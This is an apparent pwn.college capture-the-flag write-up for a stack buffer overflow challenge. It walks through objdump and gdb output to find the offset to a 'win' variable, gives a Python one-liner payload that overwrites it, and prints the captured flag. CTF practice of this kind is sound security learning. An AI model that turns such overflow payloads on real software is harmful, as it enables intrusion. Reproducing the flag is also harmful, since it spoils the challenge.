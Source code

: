 In this challenge we have to set the `win` variable to a specific value

So first we have to locate where win variable is then overflow the buffer so that our input reaches the win variable then append the value which we want to set to the variable

From `objdump`  

    220a:	48 8b 45 c8          	mov    rax,QWORD PTR [rbp-0x38]
    220e:	8b 00                	mov    eax,DWORD PTR [rax]
    2210:	3d d8 0e a3 4e       	cmp    eax,0x4ea30ed8
    2215:	75 0a                	jne    2221 <challenge+0x10c>
    2217:	b8 00 00 00 00       	mov    eax,0x0
    221c:	e8 ed fd ff ff       	call   200e <win>

we have to change win variable to `0x4ea30ed8`

Now we can use gdb to find the offset of win variable from the input buffer

    (gdb) print $rbp
    $1 = (void *) 0x7fffdc87beb0


    (gdb) x /32z $rsp
    0x7fffdc87be40:	0x6bfc26a0	0x00007edb	0xdc87cff8	0x00007fff
    0x7fffdc87be50:	0xdc87cfe8	0x00007fff	0x00000000	0x00000001
    0x7fffdc87be60:	0x00000000	0x0000000f	0x0000007c	0x00000000
    0x7fffdc87be70:	0xdc87be80	0x00007fff	0xdc87bea4	0x00007fff
    0x7fffdc87be80:	0x41414141	0x41414141	0x41414141	0x000a4141
    0x7fffdc87be90:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7fffdc87bea0:	0x00000000	0x00000000	0x1c722100	0xf8d1dfe6
    0x7fffdc87beb0:	0xdc87cef0	0x00007fff	0x6653731d	0x00005ba1

The input buffer is at `0x7fffdc87be80`

Through hit and trial we can find out the offset of win variable from input buffer

    Send your payload (up to 500 bytes)!
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
    
    Breakpoint 2, 0x0000637f51c49210 in challenge ()
    (gdb) x /wx $rax
    0xa:	Cannot access memory at address 0xa

The win variable is 36 bytes after input buffer

The exploit

    python -c 'import time, sys; sys.stdout.buffer.write(b"124"); time.sleep(2); sys.stdout.buffer.write(b"A"*37 + b"\xd8\x0e\xa3\x4e")' | ./program

I used 37 bytes here because for some reason hit was skipping the first letter. I think it has something to do with pipping.

The flag

    pwn.college{AwzFjerYgb0MWb6SgB4DAbJMFG0.dhTNzMDL5kzM1czW}

